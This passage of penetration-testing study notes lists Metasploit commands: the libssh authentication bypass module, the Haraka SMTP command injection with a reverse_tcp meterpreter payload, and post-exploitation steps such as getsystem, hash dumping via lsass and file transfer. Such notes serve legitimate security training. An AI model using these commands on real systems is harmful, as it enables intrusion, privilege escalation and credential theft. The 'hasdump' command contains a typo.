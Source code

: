 - `msf6 > use libssh_auth_bypass`
    - `msf6 > set SPAWN_PTY true`
    - `msf6 > sessions 1`
- `msf6 > use shell_to_meterpreter`
    - `set lhost …`
    - `set session 1`

### SMTP

SMTP (25/TCP or 465/587/TCP)

Haraka is a high performance SMTP server. Haraka versions prior (before) to v2.8.9 are vulnerable to a **command** **injection**.

- `msf6 > use smtp/haraka`
    - `set email_to <someone>@<domain.com>`
    - `set payload linux/x64/meterpreter/reverse_tcp`

## Meterpreter

Works differently on both OSs (windows, linux). On windows meterpreter has more features.

![Screenshot from 2024-08-15 23-14-32.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5b559fd1-44a9-48a9-ace5-96e04c706280/0e5ad2d0-89c2-4e4f-9af4-d7aaa0143128/Screenshot_from_2024-08-15_23-14-32.png)

Post-exploitation also includes Local Enumeration, Dumping Hashes, Pivoting.

- `meterpreter > sysinfo` - system information
- `meterpreter > getuid` - username
- `meterpreter > help` - a list of commands
- `meterpreter > bg` - background or CTRL + Z
- `meterpreter > download`, `upload <file>`
- `meterpreter > ls`, `cd`, `cat`, `edit`
- `meterpreter > checksum md5 /bin/bash` - getting md5 hash of a binary (command)
- `meterpreter > getenv SHELL` - echo $SHELL
- `meterpreter > search -d /usr/bin -f *backdoor*`
- `meterpreter > shell` - cmd or bash
- `meterpreter > ps` - processes
- `meterpreter > migrate <ps.id>`
- `meterpreter > use shell_to_meterpreter`
- or `bg`, then`sessions -u 1`

## Post-Exploitation

## Windows

Some modules for local enumeration:

- `meterpreter > screenshot`- gives a screenshot of the machine remotely
- `meterpreter > getsystem` - for elevating privileges automatically
- `meterpreter > hasdump` - for dumping hashes (you need to be NT AUTHORITY, you must migrate to lsass)
- `meterpreter > show_mount` - shows Drives
- `meterpreter > cd C:\\` - for the root of the Drive
